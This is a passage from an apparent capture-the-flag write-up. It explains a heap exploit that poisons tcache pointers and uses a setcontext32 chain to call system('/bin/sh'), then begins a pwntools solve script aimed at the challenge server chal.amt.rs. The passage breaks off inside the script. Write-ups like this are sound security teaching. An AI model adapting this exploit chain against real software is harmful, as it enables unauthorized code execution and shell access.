 Anyways, using this, we can achieve shell:

```py
destination, payload = setcontext32(
    libc, rip=libc.sym["system"], rdi=libc.search(b"/bin/sh").__next__()
)
# tcache fd and bk "pointers" stored are xored with the heap base >> 12
update(0, p64(destination ^ tcache_addr)) 

# the second 0x300 chunk is at destination
create(0, 0x300, b'', 0x300, b'') 

# write in forged chunk
update(0, payload) 
```

## Final code

Putting it all together:

> Note: my read8() code is very buggy but it works a decent amount of the time

{% ccb caption:solve.py lang:py gutter1:1-99 %}
from pwn import *
from setcontext32 import *

context.binary = elf = ELF('./chal')
context.log_level = 'DEBUG'

library_path = libcdb.download_libraries('lib/libc.so.6')
if library_path:
    elf = context.binary = ELF.patch_custom_libraries(elf.path, library_path)
    libc = elf.libc
else:
    libc = ELF('lib/libc.so.6')

gdbscript = 'break db_menu'
gdbscript = ''

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    print(args)
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("chal.amt.rs", 1346)
    else:
        return process([elf.path] + argv, *a, **kw)
    
p = start()

def create(index, keyLen, key, valueLen, value):
    p.sendlineafter(b'>>>', b'1')
    p.sendlineafter(b'>>>', str(index).encode())
    p.sendlineafter(b'>>>', str(keyLen).encode())
    p.sendlineafter(b'>>>', key)
    p.sendlineafter(b'>>>', str(valueLen).encode())
    p.sendlineafter(b'>>>', value)
